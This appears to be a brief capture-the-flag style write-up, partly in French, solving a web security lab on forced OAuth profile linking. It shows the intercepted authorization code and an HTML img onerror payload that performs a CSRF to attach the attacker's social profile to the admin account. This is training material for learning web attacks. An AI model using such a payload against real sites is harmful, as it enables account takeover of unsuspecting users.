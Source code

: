# Forced OAuth profile linking

```
 This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.

To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

You can log in to your own accounts using the following credentials:

    - Blog website account: wiener:peter
    - Social media profile: peter.wiener:hotdog
```

## Observations :

``` 
GET /auth?client_id=jg0t7jc74dkh09np3hh7e&redirect_uri=https://0a72008c033fb59c8ba3a214007200eb.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email
```
> redirection vers `https://0a72008c033fb59c8ba3a214007200eb.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email`

On intercept la requête avec notre code afin que l'admin lie son compte au notre : 

```
code=vU9Q5gmz1Obk1kq3hEcZU4nk3UuZbRVhbc-8qAjGEbW
```

### Création payload à envoyer depuis le serveur d'exploit :

```html
<img src="xmco" onerror="document.location='https://0a72008c033fb59c8ba3a214007200eb.web-security-academy.net/oauth-linking?code=vU9Q5gmz1Obk1kq3hEcZU4nk3UuZbRVhbc-8qAjGEbW'"/>
```

> SOLVED : GG WP ! :) 